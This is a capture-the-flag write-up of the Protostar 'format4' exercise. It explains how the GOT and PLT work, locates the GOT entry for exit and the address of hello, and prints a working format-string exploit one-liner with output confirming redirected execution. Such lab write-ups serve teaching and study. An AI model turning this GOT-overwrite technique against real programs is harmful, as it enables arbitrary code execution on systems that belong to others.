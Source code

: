 **Format4**


In this challenge we can't just change eip straight from the format string, we have an exit function call right after.

We need to somehow change the exit function field in the .got to the address of hello.



**Got?**

No, not Game of Thrones.

The General Offset Table (GOT for short) is a table of function addresses.

What addresses?

When you use a function from a shared object, for example exit we can't just jump to exit's address because the compiler doesn't know where it is in memory.

That's why when you call a function from a shared object for the first time the Procedure Linkage Table (PLT for short) calls a different function that sets the .got field for exit.

From now on, on every exit call, the plt will jump to whatever address the .got has.



**How Can We Exploit This?**

We need to find where exactly the .got field for exit is located so we can change it's value to hello's address and instead of executing exit we'll simply jump to hello.



**Finding GOT**

If we run the program and try to disassemble exit in gdb, we'll get exit's actual code, which is at (0xb7ec60c0).
We need to try and look at exit before running the program.

![](photos/pre_exec.png)

This is the plt function that checks .got, let's disassemble it

![](photos/exit@plt.png)

There it is!
We need to change this address in order to achieve our goal.



**Finding hello's Address**

```diff
$ readelf -s format4 | grep hello
    64: 080484b4    30 FUNC    GLOBAL DEFAULT   14 hello
```


**Writing The Exploit**

We've already done a few of these format string attacks already, so I'll skip some trivial parts.

We need 3 %x to change our address with a %n.

0x080484b4(hello) - exploit_length = our_value.

After a few tries in gdb I've constructed the following exploit.

```diff
$ python -c "from struct import pack; print pack('<I', 0x8049724) + '%x '*2 + '%134513827x%n'" | ./format4
...
...
...
...
                                                                                                                                                          bffff614
code execution redirected! you win
```

This took a while to run.